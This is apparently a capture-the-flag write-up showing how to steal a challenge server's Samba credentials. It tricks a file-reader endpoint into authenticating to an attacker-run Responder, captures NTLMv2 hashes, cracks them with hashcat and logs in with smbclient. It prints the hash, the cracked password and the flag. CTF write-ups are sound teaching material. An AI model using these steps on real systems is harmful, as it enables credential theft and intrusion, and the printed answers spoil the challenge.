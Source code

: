 #### Challenge:

Hi Expert,

the file sharing service at `http://78.128.216.5:65080` looks as valuable source of information. Get access to the system and export any valuable data.

---

#### Solution:

Following the ling redirects us to URL:

`http://78.128.216.5:65080/smbreader?server=localhost&file=message.txt`

which contains the text:

```text
Current path is \\localhost\shared\message.txt
Hey you, try to get Samba password for user 'shared', then search flag.txt  :-)
```

It looks like we can manipulate the server and file that is read, but the result always times out. The `smbreader` indicates that it uses `samba` protocol. Bit of Googling led me to this [article](https://cornerpirate.com/2021/06/17/grabbing-ntlm-hashes-with-responder-then-what/).

TLDR: we need to setup [responder](https://gitlab.com/kalilinux/packages/responder.git) on our machine to listen:

```bash
git clone https://gitlab.com/kalilinux/packages/responder.git
sudo ./responder/Responder.py -I eth0 -Pv
```

And then ping it like this:

```bash
curl http://78.128.216.5:65080/smbreader?server=MY.CURRENT.PUBLIC.IP&file=message.txt
```

The server will try to connect to the `responder`, which dumps the `NTLM hashes` of the `shared` user:

![responder.png](./responder.png ":include")

Then we need to feed the `NTLM Hashes` to `John` or `Hashcat` to get the password of the `shared` user:

```bash
for user in `strings /usr/share/responder/logs/Responder-Session.log | grep "NTLMv2-SSP Hash" | cut -d ":" -f 4-6 | sort -u -f | awk '{$1=$1};1'`
do
    echo "[*] search for: $user";
    strings /usr/share/responder/logs/Responder-Session.log | grep "NTLMv2-SSP Hash" | grep -i $user | cut -d ":" -f 4-10 |  head -n 1 | awk '{$1=$1};1' >> ntlm-hashes.txt
done

hashcat -m 5600 ntlm-hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
cat cracked.txt
```

Which gets us:

```text
SHARED:::c9c0da939d5fac4c:de4257fe1cb72ae3142077ce54276999:0101000000000000005660fbe2bed701ed1eb3c1a2e28282000000000200080053004d004200330001001e00570049004e002d00500052004800340039003200520051004100460056000400140053004d00420033002e006c006f00630061006c0003003400570049004e002d00500052004800340039003200520051004100460056002e0053004d00420033002e006c006f00630061006c000500140053004d00420033002e006c006f00630061006c0007000800005660fbe2bed7010900240043004900460053002f00380039002e003100370037002e00350036002e0031003500390006000400020000000000000000000000:Iloveyou4
```

Knowing the `username%password`, we can connect to the server using `smbclient` and `get` the `flag.txt` (*Note that for some reason you have to have public IP for this as well, I couldn't connect to it through NAT*):

```bash
smbclient //78.128.216.5/shared/ -U shared%Iloveyou4 -c "get flag.txt"
cat flag.txt
```

---

<details><summary>FLAG:</summary>

```
FLAG{xcrh-xE9H-H4wm-4Pxm}
```

</details>
<br/>
